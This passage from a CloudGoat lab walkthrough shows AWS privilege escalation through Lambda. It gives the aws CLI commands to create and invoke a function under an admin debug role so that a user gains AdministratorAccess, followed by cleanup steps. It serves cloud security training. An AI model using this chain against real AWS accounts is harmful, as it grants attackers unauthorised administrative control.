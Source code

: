 If you aren't familiar with python, this script is adding a new policy to the `Chris` user. It's defining a function called `lambda_handler` that takes in a couple values and then attempts to add a user policy  to `Chris`. Not very error safe though, it's just returning 200, but if something does go wrong, we'd probably see the results in the log. 

We need to zip it up too before we can send it. You can do that by running `zip payload.zip exploit.py`. Then we gotta crete the function using this command:

```bash
aws lambda create-function --function-name escalate-admin-cg --runtime python3.9 --role arn:aws:iam::381491899745:role/cg-debug-role-cgidasldh6kuco --handler lambda_function.lambda_handler --zip-file fileb://payload.zip --region us-east-1 --profile lambda_priv_new
```

Note:

* We're setting the runtime to python 3.9
* The role being assigned is the debug role, which has admin access
* We're running it using the new role we assumed.
* Think of as manipulating a file that has root access on a linux machine. We're running the lambda using a role that has superior access to give us administrator access.

Next we invoke the function using

```bash
aws lambda invoke --function-name escalate-admin-cg output.txt --region us-east-1 --profile lambda_priv_new
```

It said 200 in the response, which is generally a good thing. Let's check if we have the role attached to the chris user now with:

```bash
aws iam list-attached-user-policies --user-name chris-cgidasldh6kuco --region us-east-1 --profile lambda_priv
```

The response should now show we have `AdministratorAccess` on our policy list. And that's the end!

# Conclusion

We managed to find a couple of roles with elevated permissions. We could not directly take on the role with admin access, but were able to go through a 'middleman' to get the super account to run a lambda function. We had that lambda function execute a python script that gave us the admin access. Quite a long attack chain, but there we go, Pprivilege escalation using lambda functions.

*Don't forget to run the following commands to shut down your resources in AWS*

```bash
cloudgoat destroy lambda_privesc
aws lambda delete-function --function-name escalate-admin-cg
```

# Cheat Sheet

To close off, here's a quick summary of the commands we needed to run to complete this module. If you're ever coming back to this and just need that one command, this is the section to check.
